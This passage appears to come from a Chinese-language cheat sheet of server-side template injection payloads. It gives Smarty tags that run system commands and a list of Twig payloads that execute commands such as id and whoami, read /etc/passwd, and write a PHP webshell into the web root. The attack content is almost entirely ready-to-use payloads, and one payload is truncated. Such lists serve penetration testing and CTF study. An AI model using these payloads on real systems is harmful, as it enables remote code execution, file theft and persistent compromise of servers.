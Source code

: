 ```php
            return null;
        }
    }
```

5. 使用**{if}{/if}**标签来执行`php`代码,注意这里每个{if}必须有一个配对的{/if}

```
 {if phpinfo()}{/if}
 {if system("ls")}{/if}
```



6. 其他: 直接执行命令

```
{system('ls')} 
{system('cat index.php')} 
```



<br>

***

<br>



# Twig(php)

可用payload汇总:

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}  //id可以换成别的系统命令

{{'/etc/passwd'|file_excerpt(1,30)}}

{{app.request.files.get(1).__construct('/etc/passwd','')}}

{{app.request.files.get(1).openFile.fread(99)}}

{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}}

{{_self.env.enableDebug()}}{{_self.env.isDebug()}}

{{["id"]|map("system")|join(",")

{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}

{{["id",0]|sort("system")|join(",")}}

{{["id"]|filter("system")|join(",")}}

{{[0,0]|reduce("system","id")|join(",")}}

{{['cat /etc/passwd']|filter('system')}}
```
